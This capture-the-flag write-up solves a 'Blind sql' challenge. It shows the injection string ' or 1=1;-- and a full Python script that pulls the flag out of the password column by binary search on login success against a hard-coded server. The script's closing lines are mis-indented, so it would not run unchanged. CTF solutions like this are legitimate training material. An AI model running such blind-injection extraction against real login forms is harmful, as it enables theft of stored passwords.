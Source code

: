 # Blind sql

We have a login page which tells us whether we successfully logged in. A quick test with the `uname` parameter as `' or 1=1;--` shows that the page is vulnerable to SQL injection. Since there's no flag even if we login successfully, the flag may lie in the password. Thus, we just need to send queries that gives us information about the password (`psw` parameter) based on whether we login successfully.

The way to do this with the least queries is to binary search for the password, as shown in the Python script below:

```python
import requests as req

url = 'http://130.185.122.155:8080/login'
cookies = { '416c6c6f77': '54727565' }


data = {
    'uname': "' or 1=1;--",
    'psw': "password"
}
success_text = req.post(url, cookies=cookies, data=data).text
data = {
    'uname': "' or 1=1;-",
    'psw': "password"
}
fail_text = req.post(url, cookies=cookies, data=data).text


current_password = 'RaziCTF{'
char_set = ''.join(sorted('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_{}!@#$^&*()[]-=+;:,./<>?'))

while True:
    lo, hi, ans = 0, len(char_set)-1, -1
    while lo <= hi:
        mid = (lo + hi) // 2
        next_char = char_set[mid]
        
        data = {
            'uname': "' or password>='" + current_password + next_char + "';--",
            'psw': "password"
        }
        res = req.post(url, cookies=cookies, data=data)
        if res.text == success_text:
            ans = mid
            lo = mid + 1
        else:
            hi = mid - 1
    current_password += char_set[ans]
		if current_password[-1] == '}':
		    break

# output the flag
print(current_password)
```
